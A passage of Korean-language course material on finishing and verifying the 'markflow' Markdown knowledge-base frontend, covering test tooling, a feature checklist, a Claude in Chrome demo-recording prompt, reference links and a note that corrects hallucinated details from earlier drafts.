변경은 /docs/PERF_PLAN.md 에 정리만 하고 실제 코드는 수정하지 마.
```

[표 5-10] markflow 검증 단계별 도구 매트릭스

| 검증 영역 | 도구 | 실행 명령 | 현재 상태 |
|---------|------|---------|----------|
| 단위/컴포넌트 테스트 | Vitest | `pnpm --filter @markflow/web test` | ✅ 설치됨, 테스트 점진 확장 중 |
| 컴포넌트 a11y | vitest-axe | `pnpm test a11y` | ❌ 미설치 (도입 권장) |
| E2E 시나리오 | Playwright | `pnpm --filter @markflow/web test:e2e` | ✅ 설치됨, chromium 단일 |
| 시각 회귀 | Playwright snapshot | `playwright test --update-snapshots` | ✅ Playwright 기반 도입 가능 |
| 번들 분석 | @next/bundle-analyzer | `ANALYZE=true pnpm build` | ❌ 미설치 (도입 권장) |
| Lighthouse | @lhci/cli | `pnpm dlx @lhci/cli autorun` | ❌ 미설치 (도입 권장) |
| TypeScript | tsc | `pnpm exec tsc --noEmit` | ✅ strict mode |

---

### 5.7.4 React-grab을 이용한 프론트엔드 퀵 디버깅

> 본 강의 자료(MD)에서는 별도 소스로 다루지 않고, 슬라이드 데크의 React-grab 섹션(*DEBUG TOOLING / SETUP / USAGE* 3장)으로 갈음한다. 핵심 — Chrome 확장 또는 MCP 어댑터로 클릭한 React 요소를 컴포넌트 트리·props·hook 상태와 함께 Claude Code 로 즉시 전달, 화면→코드 매핑 시간을 0에 가깝게 줄인다.

---

### 5.7.5 [프로젝트] 지식 관리 시스템 완성과 데모

Phase 1~5를 모두 완료하면 markflow의 핵심 흐름이 동작한다.

**검증 체크리스트** (실제 markflow 컴포넌트 기반)

- [ ] 회원가입(`apps/web/app/api/v1/auth/register`) → 이메일 인증(Resend) → 로그인(JWT)
- [ ] 워크스페이스 생성·초대(`/invitations`)·참여 요청(`/join-request`) — RBAC
- [ ] 카테고리 폴더 트리 생성·재배치(`category-tree.tsx` + Closure Table)
- [ ] 문서 생성 → CodeMirror 6 입력 → 실시간 미리보기(`@markflow/editor`)
- [ ] KaTeX 수식·코드 하이라이팅 렌더 *(Mermaid는 현재 미지원, DAG/Mind Map은 별도 모달)*
- [ ] 자동 저장 + 버전 이력(`version-history-panel.tsx`/`version-history-modal.tsx`) + 충돌 처리
- [ ] 단축키, 검색 모달(`search-modal.tsx`), DAG 구조 모달(`dag-structure-modal.tsx`)
- [ ] 검색 + 태그 필터(`tag-input.tsx`) + 페이지네이션
- [ ] Import/Export(`import-export-modal.tsx`) + 임베드 토큰(`/embed/[token]`)
- [ ] 이미지 업로드(Cloudflare R2 Worker 경유 — `apps/worker`)
- [ ] 발표 모드(`presentation-mode.tsx` + `app/present/`)
- [ ] 댓글 패널(`comment-panel.tsx`)
- [ ] 모바일 반응형(360px) ~ 데스크톱(1920px)
- [ ] Lighthouse Performance ≥ 90, Accessibility ≥ 95 *(목표치, 현재 측정 환경 미구축)*
- [ ] Playwright E2E 핵심 시나리오 통과(`apps/web/tests/e2e/`)

> 🔧 **[코드베이스 교정]** — 위 체크리스트는 실제 markflow `apps/web/components/` 와 `app/api/v1/` 구조를 기반으로 작성되었다. *명령 팔레트(Cmd+K) / 다크 모드 토글 / Mermaid 다이어그램 / 자동 저장 디바운스 2s* 항목은 강의 자료 원안의 "도입 권장" 항목이며, 현재 시점에는 일부만 구현되어 있다.

**데모 영상 만들기 — Claude in Chrome 활용**

브라우저 자동화로 데모 시나리오를 녹화하면 변경마다 직접 다시 찍을 필요가 없다. Claude Code의 **Claude in Chrome** MCP에 GIF 녹화 도구가 있어, 시나리오를 자연어로 묘사하기만 해도 클릭·입력을 자동화하면서 GIF를 산출할 수 있다.

```text
markflow 데모 GIF 를 만들어줘.

1. http://localhost:3002 에 접속
2. 'demo@markflow.dev' / 'demo1234!' 로 로그인
3. 사이드바에서 'Engineering' 카테고리 선택
4. '새 문서' 버튼 클릭, 제목 'Tailwind v4 메모', 내용 짧은 마크다운 입력
5. 검색 모달 열어 다른 문서 이동
6. 사이드바에서 다른 문서 클릭하며 자연스럽게 마무리

각 단계당 1.5초 머무르고, 1280x720 / 15fps 로 GIF 출력
```

[그림 5-5] markflow 최종 데모 — 워크스페이스, 에디터, 미리보기 [스크린샷 영역]

---

> **Level 5 마무리** — 이 장에서 다룬 내용은 백엔드 위에 올라가는 모든 SaaS 화면에 그대로 응용할 수 있다. 다음 Level 6에서는 모델 선택·1M 컨텍스트·캐시 활용·Hook 가드레일·SEO 등 **운영 단계의 토큰·보안 최적화**를 다룬다.

---

## 📋 LEVEL 5 핵심 요약

| 섹션 | 핵심 내용 | markflow 현황 |
|------|----------|--------------|
| 5.1 컴포넌트 단위 구축 | Vitest + Testing Library, TDD Red-Green-Refactor, 3분할 레이아웃, 프리뷰 페이지 | ✅ Vitest/Testing Library 설치, 컴포넌트 테스트 점진 확장 |
| 5.2 마크다운 에디터 핵심 | CodeMirror 6 선택 근거, remark/rehype 파이프라인, sanitize XSS 방어 | ✅ `@markflow/editor` 패키지에 구현 완료, Mermaid는 미도입 |
| 5.3 지식 관리 UI 패턴 | Closure Table 트리, 디바운스 검색, 자동 저장+버전 충돌, Cmd+K 검색 모달 | ✅ category-tree/search-modal/version-history 구현, cmdk 미도입 |
| 5.4 CSS/UI — Tailwind | v4 CSS-first, OKLCH 컬러(권장), 의미/원시 토큰 분리 | ✅ Tailwind v4 사용, HEX + `:root` 변수, OKLCH·`@theme` 미적용 |
| 5.5 디자인 시스템 | colors.json + DESIGN_SYSTEM.md, frontend-design Skill, theme-factory | ✅ `:root` 토큰 + `apps/web/components/landing/`, 디자인 문서는 미정 |
| 5.6 프로덕션급 UI 패턴 | a11y 자동 검증(vitest-axe), 모바일 우선, next-intl, react-virtual, 번들 분석 | ❌ vitest-axe·next-intl·react-virtual·bundle-analyzer 모두 미설치 |
| 5.7 검증과 마무리 | Vitest + Playwright + Lighthouse 3축 검증, react-grab 디버깅, 시각 회귀 | ✅ Vitest + Playwright 설치, Lighthouse 미설치, react-grab 도입 권장 |

---

## 📚 참고 자료

### markflow / Anthropic
| 자료 | URL |
|------|-----|
| markflow 오픈소스 리포지터리 | https://github.com/claude-code-expert/markflow |
| Anthropic frontend-design Skill (공식) | https://github.com/anthropics/claude-plugins-official/tree/main/plugins/frontend-design |
| Anthropic theme-factory Skill (공식) | https://github.com/anthropics/skills/tree/main/skills/theme-factory |
| Claude Plugins — Frontend Design | https://claude.com/plugins/frontend-design |
| awesome-claude-skills | https://github.com/travisvn/awesome-claude-skills |
| Top Claude Skills for UI/UX (Snyk, 2026.03) | https://snyk.io/articles/top-claude-skills-ui-ux-engineers/ |

### Tailwind CSS
| 자료 | URL |
|------|-----|
| Tailwind CSS v4.0 공식 발표(2025.01) | https://tailwindcss.com/blog/tailwindcss-v4 |
| Tailwind CSS v4.1 (text-shadow, mask) | https://tailwindcss.com/blog/tailwindcss-v4-1 |
| Tailwind CSS v4 Releases | https://github.com/tailwindlabs/tailwindcss/releases |
| Tailwind 업그레이드 가이드 | https://tailwindcss.com/docs/upgrade-guide |
| Tailwind — Dark mode | https://tailwindcss.com/docs/dark-mode |

### shadcn/ui
| 자료 | URL |
|------|-----|
| shadcn/ui Changelog | https://ui.shadcn.com/docs/changelog |
| shadcn/ui CLI v4 (2026.03) | https://ui.shadcn.com/docs/changelog/2026-03-cli-v4 |
| shadcn/ui CLI 레퍼런스 | https://ui.shadcn.com/docs/cli |
| shadcn/ui Skill | https://ui.shadcn.com/docs/skills |
| shadcn/ui MCP | https://ui.shadcn.com/docs/mcp |
| LogRocket — AI + ShadCN(2025.10) | https://blog.logrocket.com/ai-shadcn-components/ |

### TanStack
| 자료 | URL |
|------|-----|
| TanStack Query v5 — Optimistic Updates | https://tanstack.com/query/v5/docs/react/guides/optimistic-updates |
| TanStack Query v5 — Migration Guide | https://tanstack.com/query/v5/docs/react/guides/migrating-to-v5 |
| TanStack Virtual | https://tanstack.com/virtual/latest |

### 에디터·마크다운
| 자료 | URL |
|------|-----|
| CodeMirror 6 공식 사이트 | https://codemirror.net/ |
| @uiw/react-codemirror (참고) | https://uiwjs.github.io/react-codemirror/ |
| remark/rehype 생태계 (unifiedjs) | https://unifiedjs.com/learn/ |
| rehype-sanitize | https://github.com/rehypejs/rehype-sanitize |
| Mermaid securityLevel | https://mermaid.js.org/config/usage.html#securitylevel |
| cmdk (Command Palette) | https://cmdk.paco.me/ |
| dnd-kit (React) | https://dndkit.com/react/quickstart/ |

### 테스트·접근성
| 자료 | URL |
|------|-----|
| Vitest 공식 가이드 | https://vitest.dev/guide/ |
| Testing Library | https://testing-library.com/docs/ |
| vitest-axe | https://github.com/chaance/vitest-axe |
| Playwright | https://playwright.dev/docs/intro |
| Lighthouse CI | https://github.com/GoogleChrome/lighthouse-ci |
| Web Vitals | https://web.dev/vitals/ |
| WCAG 2.2 | https://www.w3.org/TR/WCAG22/ |
| 2026 Testing Framework Shootout | https://www.pkgpulse.com/blog/vitest-jest-playwright-complete-testing-stack-2026 |

### i18n / AI 도구 비교
| 자료 | URL |
|------|-----|
| next-intl | https://next-intl-docs.vercel.app/ |
| Lovable — Best AI App Builders 2026 | https://lovable.dev/guides/best-ai-app-builders |
| v0 vs Bolt vs Lovable 2026 비교 | https://freeacademy.ai/blog/v0-vs-bolt-vs-lovable-ai-app-builders-comparison-2026 |
| NextFuture 2026 비교 | https://nextfuture.io.vn/blog/v0-dev-vs-bolt-new-vs-lovable-comparison-2026 |
| Vitest 3 + Vite 6 + React 19 후기 | https://www.thecandidstartup.org/2025/03/31/vitest-3-vite-6-react-19.html |

---

## 🔍 할루시네이션 검증 노트 (2026-05-03 통합본 기준)

본 문서는 두 종의 초안을 통합·재검증해 만들었다. 통합 과정에서 실제 markflow 코드베이스(2026-05-03 기준)에 직접 접속해 다음 항목들을 확인했고, 잘못된 부분은 본문에서 정정/표시했다.

**✅ 확인되어 본문에 반영한 사실**

- **모노레포 구조**: `apps/{web,demo,worker,api}` + `packages/{editor,db}`. `apps/api`는 `.bak`만 남은 사실상 archived 상태이며, 백엔드는 `apps/web/app/api/v1/**` Route Handlers로 통합되어 있음.
- **apps/web 구조**: `apps/web/src/client/` 같은 3단 계층은 **존재하지 않음**. 평탄한 `apps/web/{components,hooks,lib,stores,tests}` 구조를 사용하며, 컴포넌트 파일명은 **kebab-case**(`sidebar.tsx`, `category-tree.tsx`, `search-modal.tsx`, `dag-structure-modal.tsx` 등).
- **app router 그룹**: `(app)` / `(auth)` / `(public)` 세 개. `(workspace)` 그룹은 존재하지 않음. 워크스페이스 라우트는 `app/(app)/[workspaceSlug]/`.
- **Vitest 버전 분리**: `apps/web` → `^3`, `packages/editor` → `^4.1.4`. apps/web의 `vitest.config.ts`는 `setupFiles: []`로 비어 있음.
- **Playwright**: `apps/web/playwright.config.ts` 존재, `chromium` 단일 프로젝트, CI에서는 외부 URL 사용. mobile-safari 등 추가 디바이스는 미등록.
- **에디터 의존성** (`packages/editor/package.json`): `@codemirror/{view,state,commands,autocomplete,lang-markdown,language-data,theme-one-dark}`, `unified`, `remark-{parse,gfm,math,breaks,rehype}`, `rehype-{raw,katex,highlight,sanitize,stringify}`, `katex`, `lucide-react`, `deepmerge-ts`. `@uiw/react-codemirror` 미사용(자체 React 래퍼).
- **apps/web 의존성**: `next@16.2.1`, `react@19.2.4`, `@tanstack/react-query@^5.72`, `zustand@^5.0.0`, `tailwindcss@^4`, `@tailwindcss/postcss@^4`, `lucide-react@^0.460.0`, `diff@^8.0.4`, `drizzle-orm@^0.39`, `bcryptjs`, `jsonwebtoken`, `resend`, `archiver`. **추가로 `react-grab@^0.1.29` 존재**.
- **마크다운 파이프라인**: `parse → gfm → math → rehype → highlight → katex → sanitize → stringify`. `parseMarkdown()`은 동기(`processSync`).
- **디자인 토큰**: `:root`에 HEX 컬러, 폰트는 `next/font/google`로 DM Sans / Sora / JetBrains Mono, 다크 모드는 `prefers-color-scheme` 기반(사용자 선택 토글 미구현).
- **시맨틱/접근성 라이브러리 미설치**: `vitest-axe`, `cmdk`, `mermaid`, `react-resizable-panels`, `@tanstack/react-virtual`, `next-intl`, `next-themes`, `class-variance-authority`, `@radix-ui/*`, `@next/bundle-analyzer`, `@lhci/cli` 모두 **미설치**. 본문에서 모두 *권장 패턴* / *선택지*로 표기.

**⚠️ 통합 과정에서 file 2(`level5-chapter5-2.md`)에서 발견·제거한 할루시네이션**

- `apps/web/src/client/components/...`, `apps/web/src/shared/`, `apps/web/src/server/`, `apps/web/src/test/` 같은 3단 계층 디렉터리 — markflow에 존재하지 않음. 모두 평탄 구조 또는 *권장 위치* 표시로 정정.
- "WorkspaceLayout", "AppShell", "DocumentList", "DocumentForm", "FrontmatterEditor", "SaveIndicator", "SplitView", "DocumentRowMenu" 같은 컴포넌트명 — 모두 markflow에 존재하지 않음. 실제 컴포넌트(`sidebar.tsx`, `category-tree.tsx`, `confirm-modal.tsx`, `doc-context-menu.tsx`, `version-history-panel.tsx` 등)로 치환하거나 *권장 패턴*으로 표시.
- 라우트 그룹 `(workspace)` — 실제는 `(app)`이므로 정정.
- "useDocuments", "useAutoSave", "useDocumentMutation" 훅 — markflow `apps/web/hooks/`에는 `use-permissions.ts`만 존재. *권장 위치*로 표기.
- Phase별 테스트 수치(22/28/17/21/16) — 다른 프로젝트(칸반)에서 옮겨온 수치이므로 본문에서 "예시"임을 명시하고 실제 markflow 현황을 별도로 기재.

**🔬 외부 사실 재확인**

- **Tailwind CSS v4.0 출시일**: 2025년 1월 22일 — Tailwind 공식 블로그 일치.
- **Tailwind v4.1**: `text-shadow-*`, `mask-*` 추가 — 공식 블로그 확인.
- **shadcn CLI v4**: 2026년 3월, Radix + Base UI 동시 지원, Skill·MCP 통합 — 공식 changelog 확인.
- **frontend-design Skill**: anthropics/claude-plugins-official 또는 anthropics/claude-code 리포지터리에 존재 — 공식 경로 확인. 27만+ 설치 수치는 비공식 출처(Snyk·Medium)이므로 본문에서 출처를 명시.
- **theme-factory Skill**: anthropics/skills 리포지터리, 10개 사전 정의 테마 — SKILL.md 확인.
- **TanStack Query v5 onMutate 패턴**: 공식 docs와 일치.
- **CodeMirror 6 코어 ~300KB / Monaco ~5MB**: 임포트하는 모듈에 따라 달라지므로 "근사치" 표기 유지.
- **v0.dev → v0.app 리브랜드**: 2026.01 — Lovable 가이드 출처.
- **next-intl App Router 권장**: 공식 docs 확인. `app/[locale]/` 디렉터리 패턴 일치.
- **`vitest-axe`**: chaance/vitest-axe NPM/GitHub에 존재 — README의 `axe()` + `toHaveNoViolations` 패턴 일치.
- **`@tanstack/react-virtual`**: `useVirtualizer` API 시그니처 공식 docs 일치.
- **WCAG 2.5.5 Target Size**: 24×24 AA / 44×44 AAA. 본문은 보수적으로 44×44 일관 표기.
- **Mermaid securityLevel**: 4단계(strict, loose, antiscript, sandbox) — 공식 docs 확인. SaaS는 `'strict'` 권장.

**📌 통합 가이드라인**

- "현재 markflow 미적용" 표기가 붙은 절은 *향후 도입 시 권장 패턴*으로 읽는다.
- `apps/web/components/...` 또는 `packages/editor/src/...` 경로는 실측 위치다. 그 외 경로(`apps/web/components/ui/...`, `apps/web/lib/queries/...` 등)는 *권장 위치*다.
- 외부 의존성은 본문 코드 위에 `pnpm --filter @markflow/web add ...` 명령을 별도 표기했다. 도입 전 반드시 `pnpm view <pkg> version`으로 최신 안정 버전을 확인할 것.
